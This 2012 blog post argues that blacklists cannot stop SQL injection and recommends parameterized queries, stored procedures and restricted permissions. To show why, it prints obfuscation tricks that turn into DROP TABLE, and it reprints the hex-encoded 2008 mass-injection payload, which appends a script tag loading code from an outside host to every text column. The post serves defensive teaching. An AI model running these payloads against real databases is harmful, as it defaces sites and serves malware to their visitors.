 ```yaml
---
title: Please don't use blacklists, use parameterized queries or stored procs instead
author: SQLDenis
type: post
date: 2012-04-05T10:55:00+00:00
ID: 1587
excerpt: "Every now and then you will hear how some site will use a blacklist to 'protect' themselves against sql injection. Using a blacklist is very foolish because you can't ever think of all the different ways that the bad guys will try to bypass your little&hellip;"
url: /index.php/datamgmt/datadesign/please-don-t-use-blacklists/
views:
  - 13977
rp4wp_auto_linked:
  - 1
categories:
  - Data Modelling and Design
  - Database Programming
  - IBM DB2
  - Microsoft SQL Server
  - MySQL
tags:
  - best practices
  - security
  - sql injection

---
```

Every now and then you will hear how some site will use a blacklist to 'protect' themselves against sql injection. Using a blacklist is very foolish because you can't ever think of all the different ways that the bad guys will try to bypass your little list.
  
Let's say you have DROP and DROP TABLE in your list.

What about these two

sql
PRINT REVERSE('tset ELBAT PORD')
PRINT convert(VARCHAR(100),0x44524F50205441424C4520746573740000000000)
```

Change PRINT to EXEC() and both will result in DROP TABLE Test

Remember this one?

sql
DECLARE @S VARCHAR(4000);SET @S=CAST(0x4445434C415245204054205641524348415228323535292C40432056415243484152283235
3529204445434C415245205461626C655F437572736F7220435552534F5220464F522053454C45435420
612E6E616D652C622E6E616D652046524F4D207379736F626A6563747320612C737973636F6C756D6E73
206220574845524520612E69643D622E696420414E4420612E78747970653D27752720414E442028622E
78747970653D3939204F5220622E78747970653D3335204F5220622E78747970653D323331204F522062
2E78747970653D31363729204F50454E205461626C655F437572736F72204645544348204E4558542046
524F4D205461626C655F437572736F7220494E544F2040542C4043205748494C4528404046455443485F
5354415455533D302920424547494E20455845432827555044415445205B272B40542B275D2053455420
5B272B40432B275D3D525452494D28434F4E5645525428564152434841522834303030292C5B272B4043
2B275D29292B27273C736372697074207372633D687474703A2F2F7777772E63686B626E722E636F6D2F
622E6A733E3C2F7363726970743E27272729204645544348204E4558542046524F4D205461626C655F43
7572736F7220494E544F2040542C404320454E4420434C4F5345205461626C655F437572736F72204445
414C4C4F43415445205461626C655F437572736F7220 AS VARCHAR(4000));print @S;
```

That becomes this

sql
DECLARE @T VARCHAR(255),@C VARCHAR(255) 
DECLARE Table_Cursor CURSOR FOR SELECT a.name,b.name 
FROM sysobjects a,syscolumns b 
WHERE a.id=b.id AND a.xtype='u' AND (b.xtype=99 OR b.xtype=35 OR b.xtype=231 OR b.xtype=167) 
OPEN Table_Cursor 
	FETCH NEXT FROM Table_Cursor INTO @T,@C 
	WHILE(@@FETCH_STATUS=0) 
	BEGIN 
--I changed EXEC to PRINT, just in case you are foolish enough to run this
		PRINT('UPDATE ['+@T+'] SET ['+@C+']=RTRIM(CONVERT(VARCHAR(4000),['+@C+']))+''<script src=http://SomeFakeSite></script>''') 
		FETCH NEXT FROM Table_Cursor INTO @T,@C 
	END 
CLOSE Table_Cursor DEALLOCATE Table_Cursor 
```

That infected millions of pages in 2008, there are still variants of this one today. A blacklist won't help you in this case.

You can also protect yourself against this attack by denying SELECT permissions on the sysobjects table, your website user should not have access to these tables in general. If you use stored procedures you can just give access to the stored procedures and nothing else.

Every web framework today offers a way to use parameterized queries and or stored procedures. There is really no excuse to fall victim to a SQL injection attack these days. 

Even using an ORM like Hibernate or Entity Framework is protected against SQL Injection because it use sp_executesql with proper parameters behind the scenes.

If you do use stored procedures, you might still have a problem if you are using dynamic SQL inside the proc with EXEC and concatenation instead of sp_executesql with proper parameters

So why do people start out by using code that is prone to SQL injection? I think there are two parts to this. 

  1. It is easier to debug and see what is contained in the string by doing a debug.write/response.write now you can see exactly what is being sent to the DB
  2. There are still books/online examples around that show code that concatenate user input with SQL

Whenever I see code like this when a person asks for help, I immediately tell that person his code is vulnerable to a SQL injection attack, it is my duty to alert this person, it is yours too, we need to educate these people